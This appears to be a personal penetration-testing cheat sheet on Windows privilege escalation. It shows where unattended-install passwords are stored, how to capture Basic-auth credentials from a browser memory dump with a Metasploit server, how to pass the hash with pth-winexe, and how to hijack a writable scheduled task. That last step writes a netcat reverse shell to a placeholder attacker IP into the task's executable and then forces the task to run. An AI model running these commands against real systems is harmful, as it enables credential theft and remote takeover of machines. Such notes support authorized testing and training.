 ## Passwords in Unattended.xml
```
C:\Windows\Panther\Unattend\Unattended.xml
```

## Password Mining Memory
```bash
# Attack box
msfconsole:
use auxiliary/server/capture/http_basic
set uripath x
run
```
Then on target
```powershell
# browser -> http://attackbox_address/x
# open cmd
taskmgr
# right-click iexplorer.exe of "Image Name" column
# select "Create Dump File"
# Copy file to attack box
# On attack box
strings dump.DMP | grep "Authorization: Basic"
echo -ne base64string | base64 -d
```

## Passing the hash
```powershell
pth-winexe -U 'admin%hash' //MACHINE_IP cmd.exe # Full hashes delimitereed by colon.

# Alternative:

responder.py #TODO!!
```

## Scheduled Tasks
```powershell
schtasks /query /tn $task_name /fo list /v
```
`Task to Run` parameter indicates what gets executed  
`Run as User` parameter indicates who executes task  
Use `icalcs` to check file permissions on the executable:
```powershell
icacls c:\path\to\task\to\run.extension
```
Replace with compatible version of netcat, socat, msfvenom reverse shell, etc
```powershell
echo c:\path\to\connection\method\nc64.exe -e cmd.exe $ATTACKER_IP 4444 > c:\path\to\task\to\run.extension
```
Then force task to run, remember to setup whatever listener required:
```powershell
schtasks /run /tn $task_name
```
